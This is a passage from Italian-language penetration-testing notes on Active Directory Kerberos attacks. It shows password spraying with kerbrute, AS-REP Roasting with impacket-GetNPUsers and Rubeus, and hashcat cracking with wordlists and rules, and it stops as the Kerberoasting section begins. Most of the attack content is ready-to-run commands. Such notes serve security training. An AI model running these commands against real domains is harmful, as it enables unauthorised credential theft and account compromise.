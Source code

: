 3) _Password spraying attack_ basato sull'ottenimento di un TGT.

```bash
.\kerbrute_windows_amd64.exe passwordspray -d $DOMAIN_NAME .\user_list.txt "$PASSWORD"
```

## 22.2.2. AS-REP Roasting

 Il processo di autenticazione via Kerberos si basa sull'invio di un AS-REQ e, dopo la verifica da parte del domain controller, sulla ricezione di una AS-REP contenente una session Key e un TGT. Questo step prende il nome di _Kerberos preauthentication_ e previene l'offline password guessing.

Senza questo step, un attaccante può inviare una richiesta AS-REQ al domain controller per conto di qualsiasi utente dell'AD. Una volta ottenuta la risposta AS-REP dal domain controller, l'attaccante può eseguire un offline password attack sfruttando la parte decriptata della risposta response. Questo attacco prende il nome di _AS-REP Roasting_.

Vale la pena sottolineare che di default, l'opzione _Do not require Kerberos preauthentication_ è disabilitata per ogni utente. Nel caso non lo fosse possiamo procedere con l'attacco.

Ci sono due possibilità:
1) Da kali
2) Dalla macchina windows

1) Utilizzo di _GetNPUsers_ per eseguire l'attacco e di _hashcat_ per ricavare la password:

```bash
impacket-GetNPUsers -dc-ip $IP_TARGET  -request -outputfile hashes.asreproast $DOMAIN_NAME/$USER_NAME

Esempio:

impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete

hashcat --help | grep -i "Kerberos"

sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

2) Utilizzo di _Rubeus.exe_ da windows:

```bash
powershell -ep bypass

.\Rubeus.exe asreproast /nowrap
```

Una volta ottenuto l'hash tramite _Rubeus_ occorre utilizzare _hashcat_ per ricavare la password.

## 22.2.3. Kerberoasting

Se un utente vuole accedere ad una risorsa gestita (hosted) dal Service Principal Name (SPN), deve prima richiedere un ticket al domain controller. Il ticket per il servizio è decriptato e validato dall'application server, dopo essere stato criptato tramite l'hash password dell'SPN
